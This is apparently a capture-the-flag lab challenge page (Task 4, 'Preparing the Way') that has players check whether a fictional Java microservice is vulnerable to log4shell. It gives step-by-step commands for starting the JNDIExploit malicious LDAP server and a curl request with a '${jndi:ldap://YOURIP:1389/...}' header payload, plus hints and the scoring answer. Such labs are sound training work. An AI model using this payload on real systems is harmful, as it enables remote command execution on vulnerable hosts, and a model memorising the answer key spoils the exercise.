 # Task 4: Preparing the Way 🔬

## DESCRIPTION

Looks like the attacker has been using JNDIExploit in your environment! That means they were likely trying to exploit log4j. That’s bad news, especially since you know the SudoSingles™ image optimization microservice is written in Java and uses log4j.

You need to figure out if the "sudosingles-optimizer" service is vulnerable to the log4shell exploit. Now.

A quick and efficient way to figure out if you’re vulnerable is to try to do the exploit yourself. (Maybe not the most secure way, though, so don’t try this at home.)

## DETAILS

So, you're going to use JNDIExploit to see if "sudosingles-optimizer" is vulnerable. This challenge has many parts, so go through each one carefully.

If you’re not already aware, JNDIExploit is a tool that sets up a malicious LDAP server that can be used to execute arbitrary commands on a host running an application vulnerable to the log4shell exploit.

TLDR; you’re going to trick "sudosingles-optimizer" into connecting to a malicious server so you can run whatever commands we want inside its container.

You have to set up the server first. To do this, do the following:

    Open the Terminal Emulator application from the dock on the bottom.

    Navigate to the hacker folder by running “cd /config/Desktop/hacker”

    Find your private ip address on the LAN network. There are many ways to find your IP address on Linux – I'll leave this one to you. Just make sure you write it down. The IP you find should look something like 10.0.XX.XX or 10.0.XX.XXX

    Run the JNDIExploit-1.2-SNAPSHOT.jar file using Java, configuring it to start the malicious server listening on the private IP address you found in step 3 above.

If you see something like the below, you’re on the right track:

<pre> 

" 

[+] LDAP Server Start Listening on 1389... 

[+] HTTP Server Start Listening on 9001... 

" 

</pre>

To test to make sure it’s running correctly, <i>open another Terminal Emulator window</i> and run the following command, where YOURIP is your local IP: "curl http://sudosingles-optimizer -H 'X-Api-Version: ${jndi:ldap://YOURIP:1389/Basic/SpringEcho}'"

To complete this challenge, after you run the above command, enter the last line generated in the Terminal Emulator window where JNDIExploit is running, and hit “Submit.” If your answer doesn’t submit, double-check all the above steps. It could mean that something is wrong with the server command.

## NOTES

For the answer, enter the whole line, exactly as it appears in your terminal.

The answer will look something like this (fill in the blanks):

<pre> 

" 

[+] _______ ______: ___ 

" 

</pre>

(I know it’s annoying, I just want to be sure you’ve set this up correctly, or things will be even more annoying later.)

## SCORING

String answer:

[+] Response code: 200

## HINTS

### HINT 1

To find your IP address, you can run many commands in the Linux terminal. Maybe there’s some way to use the hostname command to get what you want?

If you’re having trouble with JNDIExploit, maybe try looking at the "-h" flag?

### HINT 2

"hostname -I" will give you your private IP address.

"java –jar JNDIExploit-1.2-SNAPSHOT.jar -i PRIVATEIPADDRESS" will start the server properly.

Triple-check to make sure you’re using that IP address.

The answer is the <i>whole last line</i> from the Terminal window where you first ran the JNDIExploit program. Punctuation and all.

### HINT 3

1. Open a Terminal Emulator window

2. Run "hostname -I" to get your ip address

3. Run "java –jar JNDIExploit-1.2-SNAPSHOT.jar -i YOURIP"

4. Open another window and run "curl http://sudosingles-optimizer -H 'X-Api-Version: ${jndi:ldap://YOURIP:1389/Basic/SpringEcho}'"

5. If you are successful, you should see a line that looks like the following show up in your original terminal window: "[+] Response code: 200"
